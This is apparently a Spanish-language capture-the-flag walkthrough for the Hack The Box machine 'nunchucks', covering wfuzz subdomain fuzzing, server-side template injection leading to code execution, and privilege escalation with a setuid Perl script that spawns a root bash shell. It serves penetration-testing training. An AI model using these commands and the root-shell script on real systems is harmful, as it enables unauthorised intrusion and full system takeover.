 # nunchucks-htb

## NMAP

Pues solo tiene estos puertos abiertos.

![image](https://github.com/gecr07/nunchucks-htb/assets/63270579/7a0ff0fa-6591-4adf-9a75-a1db06dabcc8)

Podemos ver que tiene virtual hosting...

![image](https://github.com/gecr07/nunchucks-htb/assets/63270579/b1455178-8241-4f9c-af9b-c0f4c9f6aa26)


```
wfuzz -c -t 200 --hw=2271 --hc=404 -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.nunchucks.htb"  https://10.129.95.252/

```

Y encontramos el subdominio store.

![image](https://github.com/gecr07/nunchucks-htb/assets/63270579/fe16c383-0fc5-455c-a7f1-236bcdfbd567)

### SSTI (Server Side Template Injection)

Cuando puedes controlar lo que se refleja en una pagina prueba esta vulnerabilidad

![image](https://github.com/gecr07/nunchucks-htb/assets/63270579/696863be-7782-4d1e-9de7-8c1b4d824a5a)

El nombre de la maquina nos da pistas buscamos en hacktricks y si la payload funciona 

## RCE

![image](https://github.com/gecr07/nunchucks-htb/assets/63270579/e9e2b682-c848-4829-9843-1ae1d89a7725)

## Priv esca

Despues de hacer todos los checks...

```
getcap -r / 2>/dev/null
```

Y pues para pasar el app armo usa shebang

```
#!/usr/bin/perl
use POSIX;
setuid(0);
exec "/bin/bash";
```

















































